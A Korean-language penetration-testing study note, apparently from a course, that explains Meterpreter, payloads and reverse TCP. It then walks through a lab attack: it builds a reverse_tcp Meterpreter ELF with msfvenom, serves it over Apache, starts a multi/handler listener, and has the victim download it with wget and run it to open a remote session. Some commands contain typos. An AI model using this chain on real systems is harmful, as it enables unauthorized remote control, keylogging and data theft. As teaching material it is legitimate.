








Nessus의  웹 스캔 도구로 사용하기에는 무리가 있다.

웹 스캔

실무에서 많이 사용하는것 

유료 Appscan, Acunetix가 있다.  ->  많이 비싸다....  1년 천단위

유료 Burp Suite 1년 30

무료 Nessus, owasp lab, w3af,  skip fish(칼리리눅스)

내부모의 해킹(시스템, 네트워크)

-> 고객사가  외부모의 해킹과 동일하게 대외 서비스를 진행하는데  고객사의 개발자들과 좀더 원활한 진행을 위해 내부에  들어오게 한다.

-> 내부시스템에 대해서 모의해킹을 한다.

->>대외서비스(rsh, smb) 생각보다 많은 필요없는 포트들이 열려있는데 그걸 점검하기 위해서 Nessus 도구를 활용한다.

외부모의 해킹(대외 서비스)

윈도우 exe  meterpreter 사용

리눅스 elf

더 은밀한 방법

dll injection (찾기 어렵다)

->>로고분석 -> 윈도우 찾아낼수 없기에 (리눅스도 마찬가지) -> 어떡게해냐? -> 시스템 로고 분석

쉔권한은 얻었지만 추가적으로 내부시스탬 침투를 할떄 쉘권한으로는 한계가 있다.



## **meterpreter 란?**

Metasploit은 보안 전문가들이 시스템의 취약점을 찾아내고, 이를 이용해 시스템을 공격하는 테스트를 할 수 있게 해주는 침투 테스트 프레임워크입니다. 

Meterpreter는 Metasploit 프레임워크의 일부로 개발된 후속 침투 도구입니다. Meterpreter의 주요 목적은 침투된 타겟 시스템에서 대화형 쉘 세션을 제공하여 시스템의 다양한 측면을 제어하는 것입니다.

## 대화형 쉘 세션

대화형 쉘 세션은 사용자와 컴퓨터 간의 대화식 인터페이스를 제공하는 쉘의 실행 모드입니다. 

이 모드에서는 쉘은 사용자로부터 직접 명령을 입력받아 실행합니다.

대화형 쉘 세션은 다음과 같은 특징을 가집니다.

history, alias, job control과 같은 기능은 기본적으로 대화형 쉘에서 사용하기 위한 기능이므로 비대화형 쉘에서는 비활성화됩니다.

대화형 쉘 세션은 사용자가 명령을 입력하고 그 결과를 즉시 볼 수 있게 해줍니다.
대화형 쉘 세션은 스크립트를 작성하고 테스트하는 데 유용합니다.

### Meterpreter의 주요 기능과 기능은 다음과 같습니다.

<mark>**플랫폼 독립성**:</mark> Meterpreter는 Windows, Linux, macOS 등 다양한 운영 체제에서 실행할 수 있습니다. 이러한 플랫폼 독립성은 다양한 타겟 시스템과의 호환성을 보장합니다.

<mark>**페이로드 전달:** </mark>Meterpreter는 종종 성공적인 공격 후 타겟 시스템에 전달되는 페이로드로 사용됩니다. 이는 **침투된 시스템의 메모리에 주입되어 디스크에 흔적을 남기지 않아 감지하기 어렵습니다.**

<mark>**원격 쉘 접근:** </mark>Meterpreter는 대화형 명령 쉘을 제공하여, 마치 물리적으로 존재하는 것처럼 침투된 시스템에서 명령을 실행할 수 있게 합니다. 이 쉘은 탭 완성, 명령 히스토리, 임의의 스크립트 실행 등 다양한 기능을 가지고 있습니다.

**<mark>파일 시스템 조작</mark>**: 보안 전문가는 Meterpreter를 사용하여 타겟 시스템에서 파일을 검색, 업로드, 다운로드할 수 있습니다. 이 기능은 정보 수집, 데이터 유출 또는 악성 파일 심기 등에 중요합니다.

**<mark>권한 상승</mark>**: Meterpreter에는 권한을 상승시키는 데 사용할 수 있는 여러 내장 후속 침투 모듈이 포함되어 있습니다. 이는 저권한 사용자 계정에서 고권한 사용자 계정으로 이동하는 데 특히 유용합니다.

**<mark>포트 포워딩:</mark>** Meterpreter는 침투된 시스템에서 포트를 포워딩하여 공격자와 타겟 간의 안전한 통신을 위한 터널을 생성하는 데 사용됩니다.

**<mark>키로깅:</mark>** 정찰 목적으로, Meterpreter는 타겟 시스템에서 키 입력을 캡처하는 키로깅 기능을 제공합니다. 이는 사용자 이름과 비밀번호와 같은 민감한 정보를 드러낼 수 있습니다.

## 페이로드란?

페이로드는 전자 및 통신의 핵심 개념입니다. 

넓게 말하면, 전자 시스템을 통해 전송되거나 처리되는 정보나 데이터를 의미합니다.

페이로드를 이해하려면 먼저 

전자 시스템의 기본 구조를 아는 것이 중요합니다. 

모든 통신 시스템에는 송신 부분과 수신 부분이라는 두 가지 주요 부분이 있습니다.

페이로드는 전송되는 데이터를 의미하며, 이는 전송의 근본적인 목적이 되는 데이터의 일부분으로 그 데이터와 함께 전송되는 헤더와 메타데이터와 같은 부분을 제외한 데이터입니다.

컴퓨터 보안에서는 페이로드를 멀웨어의 일부를 뜻한다. 페이로드라는 용어는 큰 데이터 덩어리 중 ‘흥미 있는’ 데이터를 구별하는 데 사용한다. 또한 운송업에서 비롯된 용어인데 지급(pay)해야하는 적화물(load)를 의미한다고 한다.

## **Reverse TCP란?**

Reverse TCP는 네트워크 통신의 한 유형으로, 공격자의 시스템에서 대상 시스템으로의 연결이 아닌, 대상 시스템에서 공격자의 시스템으로 연결이 이루어지는 방식을 말합니다.

일반적으로, 클라이언트는 서버의 열린 포트를 통해 서버에 연결합니다. 
하지만 Reverse TCP에서는 클라이언트가 포트를 열고 서버가 그 포트에 연결하게 됩니다. (스스로 들어가겠다)**이 방식은 방화벽이 열린 포트로의 들어오는 연결을 차단하지만, 나가는 트래픽은 차단하지 않는 것을 이용합니다**.

Reverse TCP는 공격자가 원격으로 대상 시스템을 액세스하고 제어할 수 있게 해주는 은밀한 연결을 설정하는 데 사용될 수 있습니다. 이는 악성 소프트웨어 공격의 맥락에서 자주 사용되며, 악성 소프트웨어는 공격자의 시스템으로 Reverse TCP 연결을 설정하여 명령을 받거나 데이터를 추출합니다.

Reverse TCP 연결을 설정하려면 

1. **공격자의 시스템에서 들어오는 연결을 수신 대기하는 서버 애플리케이션이 실행되어야 합니다**. 

2. 그런 다음 대상 시스템이 공격자의 시스템에 연결 요청을 보내 연결을 시작해야 합니다.

Reverse TCP는 포트 포워딩이나 NAT 순회와 같은 기술과 함께 사용되어 방화벽이나 다른 보안 조치를 통해 연결을 설정하는 데 종종 사용됩니다. 이러한 기술을 이해하고 적절한 보안 조치를 구현하는 것은 조직에게 중요합니다.

공격을 하기위해 리버스 TCP 공격을하는 방법

리눅스 환경에 들어가기 위해 악성 elf 파일을 만든다.

5656포트

```
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.184.136 LPORT=5656 -f elf > back.elf
```

현 위치에 악성 elf파일 생성(배놈 생성)

공격자는 피해자가 들어갈 웹 서비스를 실행한다.

```
service apache2 start
```

악성 실행파일을 칼리리눅스에 var/www/html/ 디렉토리로 복사한다.

(피해자 Pc에서 wget를 이용한 파일 다운로드를 위해)

```
sudo cp back.elf /var/www/html/
```

새로운 터미널 환경에서 msfconsole

```
녀야msfconsole
```

핸들러 사용 멍령어를 입력한다.

```
use exploit/multi/handle 
```

set 옵션을 사용하여 공격자 포트와 ip를 설정한다.



```
set payload [linus/x86/meterpreter/reverse_tcp] # 패이로드 옵션
set LPORT 5656[본인] #포트옵션
set LHOSTS 192.168.184.136[본인] #호스트 옵션
exploit #실행
```

순서대로 진행한다.



wget를 이용해 악성 파일을 다운로드 받는다.

```
wget http://192.168.184.136/back.elf 
```



다운받은 악성파일에 실행 권한을 부여한다.

```
chmod 777 back.elf
```

악성파일을 실행한다.



실행과 동시에 Meterpreter session이 생성이된다. 







웹 해킹을 할떄 쉘을 활용을 할떄는 그 범위가 제안적이다.

meterpreter를 사용하여 그 범위를 더 포괄적으로 활용가능하게 해야한다.

use exploit/multi/handle 설명

use exploit/multi/handler는 Metasploit 프레임워크의 명령어로, 공격자가 원격으로 피해자의 시스템에 접속할 수 있게 해주는 기능을 가지고 있습니다.

Metasploit은 보안 전문가들이 시스템의 취약점을 찾아내고, 이를 이용해 시스템을 공격하는 테스트를 할 수 있게 해주는 침투 테스트 프레임워크입니다. 이 프레임워크는 다양한 모듈을 가지고 있으며, 각 모듈은 특정 작업을 수행하는데 사용됩니다.

exploit/multi/handler는 이러한 모듈 중 하나로, 페이로드 핸들러라고도 불립니다. 

페이로드 핸들러는 공격자가 피해자의 시스템에 원격으로 접속할 수 있게 해주는 역할을 합니다.

페이로드 핸들러는 공격자가 피해자의 시스템에 원격으로 접속할 수 있게 해주는 역할을 합니다. 페이로드 핸들러는 공격자가 피해자의 시스템에 원격으로 접속할 수 있게 해주는 역할을 합니다.

---

참조 사이트

[Metasploit Tutorial 2024: The Complete Beginners Guide](https://www.stationx.net/metasploit-tutorial/)

https://www.jamesparker.dev/what-is-a-meterpreter-in-metasploit/

https://medium.com/@S3Curiosity/exploring-the-power-of-meterpreter-a-comprehensive-guide-9b300bec4afa

https://www.ceos3c.com/security/metasploit-tutorial-the-complete-beginner-guide/

[What is meterpreter? - Metasploit for Beginners [Book]](https://www.oreilly.com/library/view/metasploit-for-beginners/9781788295970/2ed9404c-05e7-4e3f-84e8-e5364d853de6.xhtml)

https://polaridad.es/ko/%EC%A0%95%EB%B3%B4-%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C%EC%97%90-%EB%8C%80%ED%95%B4-%EC%95%8C%EC%95%84%EC%95%BC-%ED%95%A0-%EB%AA%A8%EB%93%A0-%EA%B2%83/

[DJI M300 페이로드, P1의 7 가지 주요 기능 : 네이버 블로그](https://blog.naver.com/PostView.nhn?blogId=j1392497&logNo=222157230390)

[페이로드(Payload) 에 대해서](https://jaynamm.tistory.com/entry/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9CPayload-%EC%97%90-%EB%8C%80%ED%95%B4%EC%84%9C)

[Generic Payload Handler - Metasploit - InfosecMatter](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)

[Metasploit Tutorial 2024: The Complete Beginners Guide](https://www.stationx.net/metasploit-tutorial/)

[meterpreter - Metasploit - Does the multi handler sends the payload, or just listens for connection - Information Security Stack Exchange](https://security.stackexchange.com/questions/221239/metasploit-does-the-multi-handler-sends-the-payload-or-just-listens-for-conne)
